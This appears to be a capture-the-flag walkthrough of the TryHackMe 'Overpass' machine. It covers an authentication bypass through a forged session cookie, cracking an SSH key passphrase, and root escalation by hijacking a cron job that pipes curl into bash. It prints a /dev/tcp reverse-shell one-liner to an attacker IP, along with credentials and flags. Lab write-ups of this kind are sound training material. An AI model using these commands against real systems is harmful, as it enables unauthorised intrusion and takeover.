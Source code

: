 
## Nmap

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## HTTP

Feroxbuster with small directory

```
301        0l        0w        0c http://10.10.239.78/img
301        0l        0w        0c http://10.10.239.78/index.html
301        0l        0w        0c http://10.10.239.78/downloads
301        0l        0w        0c http://10.10.239.78/aboutus
301        2l        3w       42c http://10.10.239.78/admin
200       40l       93w     1525c http://10.10.239.78/admin.html
301        0l        0w        0c http://10.10.239.78/css
200       26l       54w      782c http://10.10.239.78/404.html

```


Login page at `/admin.html`

more information at 
`http://10.10.239.78/aboutus/`

```
Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant
```

Here i understand that they are storing passwords in rot47 format

`view-source:http://10.10.239.78/downloads/src/overpass.go`

```
//Decrypt passwords
	buff = []byte(rot47(string(buff)))
	//Load decrypted passwords
```


Got stuck here and used this writeup `https://termack.github.io/thm_writeups/overpass`

and also this one

we set our own cookie value with 

```bash
Cookie: SessionToken=1
```

and when we try to access the `/admin`

we are not prompted to login


## Shell

1. After logging into /admin we are straigh away given a priate RSA that we can use to login
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNs.
.
.
.
.
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```


with a comment `Since you keep forgetting your password, James, I've set up SSH keys for you.`


`Also, we really need to talk about this "Military Grade" encryption. - Paradox`


2. When promted for a passphrase when using the rsa key

we crack it using the `ssh2john` and `john` tools and we get a hit

`james13          (id_rsa)`

```
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```


## Priv Esc

1. found an interesting file 
```
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```


used this information to retrieve some credentials

```
james@overpass-prod:~$ overpass

Choose an option:	4
System 	 saydrawnlyingpicture
```

2. took a hint from the writeup

`/etc/hosts` is writable by the user `james` and a every minute cronjob is running with root privileges

```
 * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

```


 i changed the entry in `/etc/hosts` file to my own IP and created a duplicate  `/downloads/src/buildsrcipt.sh`
with a reverse shell bash command

```
0<&196;exec 196<>/dev/tcp/10.17.24.189/9999; sh <&196 >&196 2>&196

```

turned my machine into a web server using 

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/overpass]
└──╼ $sudo python3 -m http.server 80
```

```
─[glack@parrot]─[~/Desktop/shellgen]
└──╼ $nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.17.24.189] from (UNKNOWN) [10.10.239.78] 53090
id
uid=0(root) gid=0(root) groups=0(root)

```

```
cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
